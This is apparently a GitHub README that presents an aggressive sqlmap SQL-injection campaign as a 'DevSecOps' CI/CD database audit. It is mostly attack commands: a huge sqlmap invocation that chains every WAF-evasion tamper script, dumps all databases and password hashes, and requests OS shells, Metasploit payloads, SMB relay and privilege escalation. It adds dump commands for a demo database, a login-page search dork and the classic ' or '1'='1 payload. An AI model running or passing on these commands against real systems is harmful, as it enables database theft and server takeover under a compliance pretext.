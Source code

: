 This project verify that your DataBases are under compliant with the actual DevSecOps MSB

Let’s audit Our Application with https://sqlmap.org {1.5.1.17#dev} 



[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program.


## 1. Install python 2.7

https://gist.github.com/4k4xs4pH1r3/2196035667b41107d903ebc5a771d956

#
## 2. Install sqlmap

       apt install sqlmap -y && cp -r /usr/share/sqlmap /usr/share/sqlmap_bck && rm -r /usr/share/sqlmap && git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git /usr/share/sqlmap && sqlmap --update && sqlmap --version
       
#       
## Generate IP addresses file of your applications (targets)

    cd /root && mkdir SA && cd SA && mkdir ad && nano ~/SA/ad/ad_ips

## Create the Pipeline CI/CD

    nano /root/SA/ad/SA_sqli.sh
#      
    sudo apt install neofetch screenfetch -y
    neofetch
    screenfetch
    sqlmap -f -b -o -m /root/SA/ad/ad_ips -t /root/.sqlmap/output/sqlmap_scan -s -a --prefix="--%20', '%20%20', '-- ', ' '" --suffix="-- " --batch --crawl=1 --crawl-exclude="logout" --forms --randomize=yes --answers="keep testing=Y,optimize=Y,sitemap=Y,follow=Y,extending=N,skip further tests=N,exploit=Y" --cookie=jsessionid=12345 --dump-all --exclude-sysdbs --random-agent --threads=10 --risk=3 --level=5 --delay=1 --timeout=15 --retries=2  --dbs --dbms=MySQL --os=Linux --count --hostname --current-user --current-db --passwords --binary-fields --tables --columns --schema --is-dba --users --privileges --roles --common-tables --common-columns --comments --shared-lib --parse-errors --drop-set-cookie --time-sec=17 --ignore-proxy --ignore-timeouts --randomize 3 --hpp --null-connection --invalid-bignum --invalid-logical --invalid-string --charset="0123456789abcdef" --encoding=GBK --technique BEUSTQ --hex --identify-waf --tamper=apostrophemask,apostrophenullencode,appendnullbyte,base64encode,between,bluecoat,chardoubleencode,charencode,charunicodeencode,charunicodeescape,commalesslimit,commalessmid,commentbeforeparentheses,concat2concatws,equaltolike,escapequotes,greatest,halfversionedmorekeywords,htmlencode,ifnull2ifisnull,informationschemacomment,least,lowercase,luanginx,modsecurityversioned,modsecurityzeroversioned,multiplespaces,overlongutf8,percentage,plus2concat,plus2fnconcat,randomcase,randomcomments,sp_password,space2comment,space2dash,space2hash,space2morecomment,space2morehash,space2mssqlblank,space2mssqlhash,space2mysqlblank,space2mysqldash,space2plus,space2randomblank,space2randomblank,symboliclogical,unionalltounion,unmagicquotes,uppercase,varnish,versionedkeywords,versionedmorekeywords,xforwardedfor --os-shell --os-pwn --os-smbrelay --os-bof --priv-esc --reg-read --ignore-timeouts --udf-inject --where=DUMPWHERE --dump-format=SQLITE --msf-path /usr/bin --tmp-dir=/root/.sqlmap/history --beep --alert=x -v 6
#

    -u 'http://10.10.10.140:80/' --level=5 --risk=3 --privileges --current-user --hostname --random-agent --current-db --dump --columns --schema --roles --comments --passwords --users --tables --is-dba --count -b --dbs --mobile --flush-session --check-waf --beep --cleanup --fresh-queries --purge-output --identify-waf --threads=37

       
## Start & Monitoring of the Pipeline CI/CD

       cd /root/SA/ad/ && chmod +x SA_sqli.sh && ./SA_sqli.sh
       
       tail -f /root/.sqlmap/output/sqlmap_scan
               
## 3. Analize/Purge the Injections Results

of each host that you are looking for (CSV format) 
Include: Target URL; Place; Parameter; Technique(s) and Note(s) at

       cd
       cd /root/.sqlmap/output/

#
#
#
# Additional commands

    -p username --url="http://yourtarget.com//?post=1" --data "username=admin&password=pass"

    -D dbname -T tablename -C id -C username -C password

# Supported DBMSes are as follows:

Firebird, H2, HSQLDB, IBM DB2, Informix, Microsoft Access, Microsoft SQL Server, MySQL, Oracle, PostgreSQL, SAP MaxDB, SQLite, Sybase.
     
    --dbms=MySQL
    
    --no-cast 
    
    --no-escape 

    --charset 'ascii'

    --predict-output

    --skip-waf

    --eta

    --sqlmap-shell
    
    --sql-shell
    
    
    sqlmap.py -u website –dbs

    -D acuart –tables

    -D acuart -T users –columns

    -D acuart -T users -C name,email,phone -dump

    
    #
    #
    #
    $ curl --header 'Host: www.example.com' 'https://127.0.0.1/' -v -k
    
    :)


inurl:website.test/login.asp

' or '1'='1

